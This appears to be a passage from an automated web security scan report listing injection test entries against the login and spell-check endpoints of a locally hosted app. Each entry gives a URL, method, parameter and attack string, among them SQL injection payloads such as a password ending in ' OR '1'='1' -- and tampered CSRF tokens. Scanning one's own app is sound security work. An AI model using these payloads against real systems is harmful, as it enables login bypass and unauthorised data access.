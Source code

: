   
  
  
* URL: [http://192.168.7.30:8080/login?next=%2Fspell_check](http://192.168.7.30:8080/login?next=%2Fspell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: `zakk1989%`
  
  
  
  
* URL: [http://192.168.7.30:8080/spell_check](http://192.168.7.30:8080/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbITOw.L9IJAUiSO75FhtrfCNduBzlONPY%'  -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `IjYxNGU2YWM5YzJlNzdiZTJiNTBjMzBlZmVmNTU0NmM3Yzk5MDhmZWYi.XbC8WQ.TM4FPbi_zW5-ggkjwVD0OtCebSU%`
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: `zakk1989' OR '1'='1' -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/spell_check](http://192.168.7.30:8080/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbITOw.L9IJAUiSO75FhtrfCNduBzlONPY%"  -- `
  